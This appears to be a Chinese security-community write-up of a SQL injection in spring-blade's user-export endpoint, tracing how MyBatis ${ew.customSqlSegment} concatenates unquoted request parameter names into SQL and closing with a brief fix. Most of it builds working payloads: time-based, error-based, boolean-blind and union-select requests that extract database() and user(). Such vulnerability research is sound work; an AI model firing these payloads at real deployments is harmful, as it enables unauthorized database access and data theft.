# 奇安信攻防社区-spring-blade SQL 注入漏洞

### spring-blade SQL 注入漏洞

spring-blade SQL 注入漏洞挖掘实战

# spring-blade SQL 注入漏洞

## 0x01 漏洞描述

在 mybatis 中，可能造成 SQL 注入的写法为${，原因如下：



所以，在 mapper.xml 中搜索${开头的内容。



其中，  
${ew.customSqlSegment}  
表示自定义 SQL 语句，我们往上跟，看这个 SQL 语句怎么来的。



ew 参数是一个 User 类型的 Wrapper，看下这个函数在哪里被调用了，于是找到：  
src/main/java/org/springblade/system/user/service/impl/UserServiceImpl.java



往上层找到 exportUser 的调用。  
src/main/java/org/springblade/system/user/controller/UserController.java



在 UserController 中将用户输入的数据转化为 UserEntity，然后传入的**exportUser**函数。  
调用链如下：

1.  用户输入数据，构建成 UserEntity。
2.  将 userEntity 带入到 userService.exportUser 中
3.  userService.exportUser 函数中，将 UserEntity 又带入到 baseMapper.exportUser 当中
4.  baseMapper.exportUser 中根据 userEntity 构建 SQL 语句（将 userEntity 的属性转化到 where 条件中）。

所以用户可控内容到了 SQL 语句当中，那么，我们应该怎么利用呢，比如我传入 account=admin' ,最后构建的 SQL 语句为：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where account=?
```

因为：mybits 在处理${ew.coustomSqlSegment}的时候，会将 value 进行预编译，如下：



那么该怎么利用呢？我们可以观察到 account 也就是属性名是直接添加到 SQL 当中的，也是没有被单引号包裹的。所以我们可以传入 1-sleep(5)=1，构建出来的 userEntity 中会有一个 1-sleep(1) 的属性名，其值为 1，然后将 userEntity 拼接成的 SQL 语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where 1-sleep(5)=?
```

从而实现注入。我们看效果吧。



延迟 18s，主要原因在于 SQL 语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user
```

有 6 条记录，每条记录都会执行一次 sleep(3)



其他利用方式。  
盲注确实有点恼火，比较慢，那么能不能转化成其他的利用方式呢？

-   报错注入：

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克]&account=&realName=&1-updatexml(1,concat(0x5c,database(),0x5c),1)=1 
```



-   布尔盲注

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d1,1,0)=1 # false，所以导出的数据为空，excel 大小会变小 
```



```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d2,1,0)=1 # true，所以导出的数据不为空，excel 大小会变大 
```



-   联合查询

```php
/api/blade-user/export-user?Blade-Auth=[jwt-masaike]&account=&realName=&account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a=1
```



Payload 解析：



我们输入-=1 的时候，会在 where 条件后，用括号包裹两个条件，然后产生两个预编译位。所以我们既要闭合括号，又要在注视符前埋下两个预编译位。从而产生初步 payload：

```php
account+like+?+and+is_deleted+%3d+?)--+a |
```

然后加入我们的 union select

```php
account+like+?+and+is_deleted+%3d+?)union+select+1,2,3,4,5,6,7,8,9,10,11,12--+a 
```

然后报错：



数据类型不一致，因为 9 所在位置是时间戳类型的，所以用 mysql 的时间戳函数填充到这。

```php
account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a 
```



导出成功，然后看 excel 就可以看到 user() 的执行结果。



## 0x02 修复建议

在构建 entity 时候，判断前端传入的 map 中是否有 entity 本身不存在的属性，如果有直接忽略掉，不将其拼接到 SQL 中。
